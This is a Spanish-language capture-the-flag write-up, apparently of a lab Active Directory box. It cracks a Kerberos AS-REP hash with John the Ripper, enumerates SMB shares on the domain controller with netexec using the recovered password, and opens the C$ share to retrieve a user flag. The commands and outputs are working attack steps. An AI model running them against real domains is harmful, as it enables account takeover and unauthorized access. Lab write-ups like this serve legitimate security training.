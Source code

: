 # HASH CRACKING

Vamos a poner el hash en un archivo hash.txt y crackearlo.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```

Info:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
internet         ($krb5asrep$23$zximena448@SOUPEDECODE.LOCAL)     
1g 0:00:00:00 DONE (2025-09-07 19:18) 100.0g/s 51200p/s 51200c/s 51200C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La contraseña del usuario zximena448 es internet.

# SMB with user zximena448

```bash
netexec smb SOUPEDECODE.LOCAL -u 'zximena448' -p 'internet' --shares
```

Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\zximena448:internet 
SMB         10.0.4.18       445    DC01             [*] Enumerated shares
SMB         10.0.4.18       445    DC01             Share           Permissions     Remark
SMB         10.0.4.18       445    DC01             -----           -----------     ------
SMB         10.0.4.18       445    DC01             ADMIN$          READ            Remote Admin
SMB         10.0.4.18       445    DC01             C$              READ,WRITE      Default share
SMB         10.0.4.18       445    DC01             IPC$            READ            Remote IPC
SMB         10.0.4.18       445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.4.18       445    DC01             SYSVOL          READ            Logon server share
```

```bash
smbclient //SOUPEDECODE.LOCAL/C$ -U zximena448
```

Entrando al recurso C$ con el usuario zximena448 encontramos la flag de usuario.

```
2fe79eb0e02ecd4dd2833cfcbbdb504c
```
